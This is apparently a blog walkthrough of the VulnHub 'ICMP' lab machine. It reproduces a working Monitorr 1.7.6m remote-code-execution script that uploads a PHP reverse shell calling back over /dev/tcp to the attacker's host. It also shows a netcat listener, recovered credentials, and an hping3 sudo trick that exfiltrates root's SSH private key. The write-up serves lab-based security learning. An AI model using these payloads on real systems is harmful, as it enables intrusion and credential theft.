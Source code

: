 ```yaml
---
layout: post
title:  "ICMP - VulnHub"
---
```



You’ll find this vm in  `https://www.vulnhub.com/entry/icmp-1,633/`

## Port Scan

```bash
nmap 10.0.2.197 -p-
```

```sh
22/tcp open  ssh
80/tcp open  http
```

## Searchsploit

- If we check the port `80` we will see that it runs the `Monitorr` Software

```bash
searchsploit Monitorr
```

```sh            
  ---------------------------------------------- ---------------------------------
   Exploit Title                                |  Path
  ---------------------------------------------- ---------------------------------
  Monitorr 1.7.6m - Authorization Bypass        | php/webapps/48981.py
  Monitorr 1.7.6m - Remote Code Execution (Unau | php/webapps/48980.py
  ---------------------------------------------- ---------------------------------
```

## Python Script - Edited

```python                                                                                                
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  # Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
  # Date: September 12, 2020
  # Exploit Author: Lyhin's Lab
  # Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
  # Software Link: https://github.com/Monitorr/Monitorr
  # Version: 1.7.6m
  # Tested on: Ubuntu 19

  import requests
  import os
  import sys

  if len (sys.argv) != 4:
  	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
  else:
      url = sys.argv[1] + "/mon/assets/php/upload.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

      data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

      requests.post(url, headers=headers, data=data)

      print ("A shell script should be uploaded. Now we try to execute it")
      url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
      requests.get(url, headers=headers)
```

## Reverse Shell

- My VM

```bash
python3 48980.py http://10.0.2.197 10.0.2.15 5555
```
- Listener

```bash
nc -lvp 5555       
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.197 [10.0.2.197] 46598
www-data@icmp:/var/www/html/mon/assets/data/usrimg$
```

## Enumeration

- reminder

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

```bash
cd devel
cat crypt.php

 <?php
  echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
  ?>
```

## SSH Login | USER

- credentials `fox` : `BUHNIJMONIBUVCYTTYVGBUHJNI`
- local.txt : c9db6c88939a2ae091c431a45fb1e59c


## Sudo | hping3
{% highlight sh %}
  $ sudo -l
  [sudo] password for fox:
  Matching Defaults entries for fox on icmp:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User fox may run the following commands on icmp:
      (root) /usr/sbin/hping3 --icmp *
      (root) /usr/bin/killall hping3
{% endhighlight %}

## Read root id_rsa using hping3

- Terminal `1`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe
```

- Terminal `2`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
```

- After running the above commands in terminal 1 the id_rsa of root will be printed

## Rooted

```bash
ssh -i id_rsa root@10.0.2.197
```
- proof.txt : 9377e773846aeabb51b37155e15cf638
